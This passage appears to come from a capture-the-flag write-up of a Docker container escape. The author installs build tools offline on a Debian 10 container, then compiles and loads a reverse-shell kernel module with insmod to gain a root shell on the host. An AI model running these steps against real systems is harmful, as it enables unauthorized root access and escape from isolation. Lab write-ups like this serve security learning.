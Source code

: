 Checking `/etc/os-release`, we see that we're working with Debian 10 (buster).

```sh
root@c6ea5b0cd73c:/tmp/esc# cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

Looking up "debian 10 build-essential" gives us [this page](https://debian.pkgs.org/10/debian-main-amd64/build-essential_12.6_amd64.deb.html) which has the `.deb` for `build-essential` as well as a list of its requirements, and those requirements also have their own requirements. We need to download and install all of that. We do, however, have a lot of packages to go through and I'm lazy so I pulled a docker image of Debian 10 and get the `.deb` files from there.

My work flow for getting the `.deb` files was as follows

1. `docker pull debian:10` to pull the image
2. `docker run -it debian:10 /bin/bash` to run the image with a shell
3. Following [this stackexchange answer](https://unix.stackexchange.com/a/313117), `apt install apt-rdepends` and run `apt-rdepends "build-essential" | grep -v ^\ | tr '\n' ' '` to get all the packages (not downloading yet because `libc-dev` can't be found)
4. `apt download` with all the packages except `libc-dev`
5. Transfer `.deb` files (I `zip`'d them first) to the host attacking machine
5. Download `libc-dev` from [here](https://debian.pkgs.org/10/debian-main-amd64/libc-dev-bin_2.28-10_amd64.deb.html)
6. Realize that there's already `libc-dev-bin_2.28-10_amd64.deb` in the downloaded `.deb` files
7. Transfer all the `.deb` files to the target and `dpkg -i *.deb`

After the installation, we can try compiling our reverse shell.

```sh
root@c6ea5b0cd73c:/tmp/esc# make
make -C /lib/modules/4.15.0-142-generic/build M=/tmp/esc modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
  CC [M]  /tmp/esc/reverse-shell.o
cc1: error: code model kernel does not support PIC mode
make[2]: *** [scripts/Makefile.build:339: /tmp/esc/reverse-shell.o] Error 1
make[1]: *** [Makefile:1584: _module_/tmp/esc] Error 2
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'
make: *** [Makefile:5: all] Error 2
```

Another error! I tried running `make clean` and `make all` again and it compiled. All that's left is to open a listener and load the module.

```sh
insmod reverse-shell.ko
```

With that, we should have a root shell on the host machine.
